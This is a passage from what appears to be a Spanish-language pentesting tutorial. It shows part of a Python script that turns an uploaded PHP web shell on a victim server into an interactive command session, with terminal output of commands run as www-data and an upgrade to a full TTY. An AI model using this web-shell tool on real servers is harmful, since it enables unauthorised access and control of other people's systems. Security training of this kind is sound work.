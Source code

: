 ```python
SetupShell()

ReadingTheThings = AllTheReads()

def sig_handler(sig, frame):
	print("\n\n[*] Exiting...\n")
	print("[*] Removing files...\n")
	RunCmd(erasestdin)
	RunCmd(erasestdout)
	print("[*] All files have been deleted\n")
	sys.exit(0)

signal.signal(signal.SIGINT, sig_handler)

while True:
	cmd = input("> ")
	WriteCmd(cmd + "\n")
	time.sleep(1.1)
```

* **Importante**: En este caso estamos tirando contra la `127.0.0.1` suponiendo que el fichero se llama `cmd.php`, en vuestro caso lo tendréis que cambiar a lo que os toque.

Entonces bien, imaginad que ya tenéis un archivo `cmd.php` alojado en el servidor víctima, pues mirad que sencillo:

```go
┌─[k4lelv@parrot]─[~/Desktop/example]
└──╼ $python3 ttyOverHTTP.py 
> whoami
www-data
> pwd
/var/www/html
> cd /home
> pwd
/home
> ls -l
total 0
drwxr-xr-x 1 k4lelv k4lelv 1156 Feb  4 12:19 k4lelv
```

Ya directamente se gestiona desde el script la sesión, pudiendo así ver los outputs de los comandos que especifiquemos desde `input`. 

El procedimiento ahora para obtener una TTY y proseguir naturalmente sería el mismo que os mostré anteriormente:

```go
┌─[k4lelv@parrot]─[~/Desktop/example]
└──╼ $python3 ttyOverHTTP.py 
> whoami                  
www-data
> script /dev/null -c bash
Script started, file is /dev/null
www-data@parrot:/var/www/html$
> su k4lelv
su k4lelv
Password:
> ************* # Aquí va vuestra contraseña

░▒▓    /var/w/html  ✔ ▓▒░                                                  
> bash
bash
┌──[k4lelv@parrot]─[/var/www/html]
└──╼ $
> whoami
```
